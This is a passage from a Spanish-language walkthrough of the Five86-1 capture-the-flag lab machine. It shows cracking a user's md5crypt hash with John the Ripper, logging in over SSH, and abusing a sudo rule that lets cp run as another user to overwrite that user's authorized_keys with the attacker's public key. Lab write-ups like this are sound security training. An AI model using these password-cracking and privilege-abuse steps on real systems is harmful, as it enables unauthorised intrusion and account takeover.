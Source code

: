 Ahora si continuamos e intentamos obtener la clave de douglas con john

```
❯ john douglas_hash --wordlist=wordlist_five_small.txt      
Warning: detected hash type "md5crypt", but the string is also recognized as "md5crypt-long"
Use the "--format=md5crypt-long" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (md5crypt, crypt(3) $1$ (and variants) [MD5 256/256 AVX2 8x3])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
*******rrr       (?)     
```

Ahora si con la contraseña logramos entrar al directorio de ``/reports``
Entrando no encontre nada entonces intente entrar por el puerto 22 ssh

```
❯ ssh douglas@10.0.2.20
```
Ahora dentro de la maquina vemos que tenemos varios usuarios
```
douglas@five86-1:/home$ ls
douglas  jen  moss  richmond  roy
```
Lanzamos el comando ``sudo -l``
```
douglas@five86-1:~$ sudo -l
Matching Defaults entries for douglas on five86-1:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User douglas may run the following commands on five86-1:
    (jen) NOPASSWD: /bin/cp
```

Ahora intentamos cambiar de usuario hacia jen

Ya que ``jen`` puede copiar sin password entonces copiamos nuestra clave publica
```
❯ cat /home/kali/.ssh/id_rsa.pub                    
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQDpNaDYHFQg0lTIc1Uw5ix/\4byPKQO8yoeNRrNSGOHE8QER314ttRlB/V/\meQtokPQV9Q542XE4bhbRh7D3MA85TI/\FNuxHUNFNm5XttGPHSRzRoLW3h6YxzJedtNVeQ5r7xuRauiy1EWzW/\nzeCcFs2WCmO7SZPiNZKTiG3qVYwTMTem2ZK[...]
```

Luego las copiamos donde douglas

```
douglas@five86-1:~$ cat id_rsa_mine.pub 
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQDpNaDYHFQg0lTIc1Uw5ix/4byPKQO8yoeNRrNSGOHE8QER314ttRlB/V/meQtokPQV9Q542XE4bhbRh7D3MA85TI/FNuxHUNFNm5XttGPHSRzRoLW3h6YxzJedtNVeQ5r7xuRauiy1EWzW/nzeCcFs2WCmO7SZPiNZKTiG3qVYwTMTem2ZK[...]
```

Las mandamos al temporal y las enviamos a los authorized_keys de jen

```
douglas@five86-1:~$ cp id_rsa_mine.pub /tmp
douglas@five86-1:~$ sudo -u jen cp /tmp/id_rsa_mine.pub /home/jen/.ssh/authorized_keys
```
